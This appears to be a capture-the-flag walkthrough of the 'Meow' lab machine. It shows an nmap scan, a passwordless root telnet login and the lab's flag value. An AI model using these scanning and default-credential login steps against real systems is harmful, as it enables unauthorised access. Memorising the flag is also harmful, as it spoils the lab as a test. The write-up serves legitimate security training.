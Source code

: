 ```yaml
---
Title: Meow Walktrough\
Author: sl0th0x87
Date: 2022/01/10
Tags: Linux, Network, Account Missconfiguration
Tools: nmap
Difficulty: very easy
---
```

# Meow

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.1.17
* Operating System: Linux

## NMAP scan

Make a portscan over all ports with service detecion\
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.1.17
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 15:51 CET
Nmap scan report for 10.129.1.17
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.70 seconds
```

### Open ports
* 23/tcp open  telnet  Linux telnetd

## Telnet
```bash
telnet 10.129.1.17
```

Output:
```bash
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

 █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
Try to login with user 'root'\
Wow, we are in. Telnet with root access and no password
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 10 Jan 2022 03:07:27 PM UTC

  System load:  0.45              Processes:             138
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.1.17
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 10 15:06:57 UTC 2022 on pts/0
root@Meow:~# 
```

Show files in root home directory
```bash
root@Meow:~# ls -l
total 8
-rw-r--r-- 1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x 3 root root 4096 Apr 21  2021 snap
```
Get root flag
```bash
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Congratulations! You got the machine!